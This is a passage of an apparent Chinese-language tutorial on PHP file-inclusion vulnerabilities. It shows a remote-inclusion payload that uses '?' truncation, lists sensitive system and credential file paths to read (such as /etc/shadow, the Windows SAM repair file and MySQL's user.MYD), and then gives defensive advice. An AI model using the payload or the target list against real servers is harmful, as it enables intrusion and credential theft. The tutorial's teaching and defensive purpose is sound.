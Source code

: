 
 产生的原理:

> 
<pre>/?path=http://localhost/test/solution.php?</pre>


最终目标应用程序代码实际上执行了:

> 
<pre>require_once "http://localhost/test/solution.php?/action/m_share.php";</pre>


(注意，这里很巧妙，问号"?"后面的代码被解释成URL的querystring，这也是一种"截断"思想，和%00一样)

攻击者可以在[http://localhost/test/solution.php](http://localhost/test/solution.php)上模拟出相应的路径，从而使之吻合

### 三、常见的敏感信息路径

Windows系统

> 
c:\boot.ini // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
c:\windows\php.ini // php 配置信息


Linux/Unix系统 

> 
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
/usr/local/app/php5/lib/php.ini // PHP相关配置
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/my.conf // mysql 配置文件


### 四、防御思路

1、无需情况下设置(在php.ini文件中)`allow_url_include`和`allow_url_fopen`为关闭，或者最小权限化

2、对可以包含的文件进行限制，可以使用白名单的方式，或者设置可以包含的目录，如open_basedir

3、尽量不使用动态包含

4、严格检查变量是否已经初始化。

5、严格检查输入的地址，不允许出现目录跳转符。尝试对所有输入提交可能可能包含的文件地址，包括服务器本地文件及远程文件，进行严格的检查，参数中不允许出现../之类的目录跳转符。

6、严格检查include类的文件包含函数中的参数是否外界可控。

7、不要仅仅在客户端做数据的验证与过滤，关键的过滤步骤在服务端进行。

8、在发布应用程序之前测试所有已知的威胁。

三个方面具体解释：
